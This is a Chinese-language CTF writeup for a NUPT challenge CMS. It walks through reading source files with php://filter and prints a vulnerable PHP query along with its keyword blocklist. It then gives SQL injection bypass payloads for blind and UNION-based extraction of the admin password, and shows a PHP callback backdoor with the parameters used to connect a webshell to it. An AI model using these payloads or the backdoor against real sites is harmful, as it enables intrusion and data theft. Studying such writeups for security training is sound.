 ```yaml
---
title: 南邮CTF平台综合题2writeup
toc: true
tags: [sqli , ctf ]
date: 2017-10-04 21:04:34
categories: writeup
comments: false
description: 通过SQL注入得到后台登陆密码，连接管理员自用的回调后门。
---
```


> 非xss题 但是欢迎留言~
> 地址：[get the flag](http://cms.nuptzj.cn/)

## 读取源码

在页面底部发现一个这样的链接：*http://cms.nuptzj.cn/about.php?file=sm.txt* ，说明题目提供了读取文件功能，如果使用 *[file://协议](http://php.net/manual/en/wrappers.file.php)* 读取，HTML预留字符会以字符实体显示，看起来不方便，所以也可以编码读取后再本地解码。

```php
http://cms.nuptzj.cn/about.php?file=php://filter/convert.base64-encode/resource=filename
在拿到的文件里搜索 ".php" ，顺藤摸瓜，能找到并读取到的文件有：
  sm.txt
  about.php
  index.php
  passencode.php
  say.php
  antixss.php
  so.php
  preview.php
  antiinject.php
  -----------------------------
  知道有 loginxlcteam目录或文件 和 config.php 但还读不到 ；还不知道有list.php ,xlcteam.php
```

### 关于*file://协议*

 *file://协议* ([RFC8089](https://tools.ietf.org/html/rfc8089) )是用来访问本地文件系统的，因为文件系统 是 PHP 使用的默认封装协议，因此在fopen()、 copy()、 file_exists() 、 file_get_contents()和 filesize() 等文件系统函数中是支持的。

在谷歌/火狐浏览器的URL框里输入  *file:///D:/*  或者在Linux命令行里敲 *lynx file:///* 都可以看到效果。

[PHP文档](http://php.net/manual/en/wrappers.file.php#refsect1-wrappers.file-usage) 提供的用法如下：

> - /path/to/file.ext
> - relative/path/to/file.ext
> - fileInCwd.ext
> - C:/path/to/winfile.ext
> - C:\path\to\winfile.ext
> - \\smbserver\share\path\to\winfile.ext
> - file:///path/to/file.ext

### 关于PHP的过滤器(*php://filter*)

 [php://filter](http://php.net/manual/en/wrappers.php.php#wrappers.php.filter) 和 [可用的过滤器列表](http://php.net/manual/en/filters.php)。主要用在数据流内容读取之前做些筛选过滤，可指定过滤器应用在读模式还是写模式，不指定则两者都应用，也可复合使用多个过滤器，使用管道符隔开即可。

对于CTFer典型的用法像是这样：

> php://filter/read= < filter list to apply to read chain >/resource= < stream to be filtered >
>
> php://filter/read=string.toupper|string.rot13/resource=https://findneo.github.io/
>
> php://filter/convert.base64-encode/resource=filename

常用过滤器列表：

* String Filters
  * string.rot13
  * string.toupper
  * string.tolower
  * string.strip_tags
* Conversion Filters
  * convert.base64-encode & convert.base64-decode
  * convert.quoted-printable-encode & convert.quoted-printable-decode
* Compression Filters
* Encryption Filters

## 注入

全局搜索 *mysql_query* ，发现 *say.php,so.php,index.php* 都存在数据库操作。选择 *so.php* 下手。

```php
/*so.php*/
<?php
if($_SERVER['HTTP_USER_AGENT']!="Xlcteam Browser"){
echo '万恶滴黑阔，本功能只有用本公司开发的浏览器才可以用喔~';
    exit();
}
$id=$_POST['soid'];
include 'config.php';
include 'antiinject.php';
include 'antixss.php';
$id=antiinject($id);
$con = mysql_connect($db_address,$db_user,$db_pass) or die("不能连接到数据库！！".mysql_error());
mysql_select_db($db_name,$con);
$id=mysql_real_escape_string($id);
$result=mysql_query("SELECT * FROM `message` WHERE display=1 AND id=$id");
$rs=mysql_fetch_array($result);
echo htmlspecialchars($rs['nice']).':<br />&nbsp;&nbsp;&nbsp;&nbsp;'.antixss($rs['say']).'<br />';
mysql_free_result($result);
mysql_free_result($file);
mysql_close($con);
?>
---------------------------------------------------------------------------------------
/*antiinject.php*/
<?php
function antiinject($content){
$keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
$info=strtolower($content);
for($i=0;$i<=count($keyword);$i++){
 $info=str_replace($keyword[$i], '',$info);
}
return $info;
}
?>
```

 关注 3、11、14、15行。

1. burp抓包，修改 *User-Agent* 字段即可。

2.  *antiinject()* 过滤规则是按黑名单***依次***把关键字删除。

   1. 用黑名单里最后一个关键字 `=` 分隔即可绕过对多字符关键字的过滤。
   2. 用 `/**/` 代替空格符。
   3. 单字符关键字不太会弄，也许可以用各种编码绕过，不过我们暂时未必需要，有空格和这些多字符关键字，再加上不在黑名单里的 `<>/()` 已经可以开始搞事了。

3.  *mysql_real_escape_string()* 的功能是对`\x00, \n, \r, \, ', " , \x1a(撤销键,ctrl+z)` 加反斜杠转义，我们不用这些字符就是了。

4. 15行处将处理过的参数直接拼接到查询语句，因为查询结果有多列，又没有逗号可用，不好用内联注入，于是尝试基于逻辑的注入。数据库结构在 *sm.txt* 已经给出。

5.  ```sql
   我们想要在数据库执行的查询语句是这样：
   SELECT * FROM `message` WHERE display=1 AND id=1 and ascii(mid((select userpass from admin)from 1 for 1))>65

   因为没法用空格，所以实际上是这样：
   SELECT * FROM `message` WHERE display=1 AND id=   1/**/and/**/ascii(mid((select/**/userpass/**/from/**/admin)from/**/1/**/for/**/1))>65

   希望经过过滤的 id 值为：
   1/**/and/**/ascii(mid((select/**/userpass/**/from/**/admin)from/**/1/**/for/**/1))>65

   向 so.php post过去的参数应该是：
   soid=1/**/an=d/**/ascii(mid((selec=t/**/userpas=s/**/fro=m/**/admi=n)fro=m/**/1/**/fo=r/**/1))>65

   使用burp爆破
   soid=1/**/an=d/**/ascii(mid((selec=t/**/userpas=s/**/fro=m/**/admi=n)fro=m/**/§1§/**/fo=r/**/1))>§65§
   使用 Cluster Bomb 模式，第一个payload 为 [1-40] ，第二个为 [31,32,47-57](经过几次尝试发现usepass字段只有[ \d] )
   得到[49,48,50,32,49,49,55,32,57,57,32,49,48,55,32,49,49,52,32,48,49,55,32,49,49,48,32,49,49,54,32,49,49,55]
   也就是[102 ,117 ,99 ,107 ,114 ,117 ,110 ,116 ,117]即funckruntu，访问loginxlcteam登陆即可

   进后台得知有管理员留的后门 xlcteam.php ，于是读一下这个文件
   ```

## 意外

看别人的writeup时惊喜的发现原来并没有过滤逗号，这意味着可以一次注出来管理员密码！所以深夜里我是有些激动的。

```
soid=1/**/an=d/**/0/**/unio=n/**/selec=t/**/null,usernam=e,userpas=s,null/**/fro=m/**/admi=n

//当然，在充分掌握数据库结构前需要一些尝试。
```

## 使用回调后门

回调后门似乎是 phithon 师傅最先这样称呼的，在 [*创造tips的秘籍——PHP回调后门* ](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)里做了具体介绍。

```php
//xlcteam.php
<?php
$e = $_REQUEST['www'];
$arr = array($_POST['wtf'] => '|.*|e',);
array_walk($arr, $e, '');
?>
  //使用菜刀连接即可。
  //url : http://cms.nuptzj.cn/xlcteam.php?www=preg_replace
  //密码:	wtf
```

菜刀连上后拿到所有文件，发现 config.php 里有数据库配置，于是就可以操作整个数据库了。

是的，中午吃的是美味的黄焖鸡 \o/



![](cmsnupt.png)

![](arlogined.png)
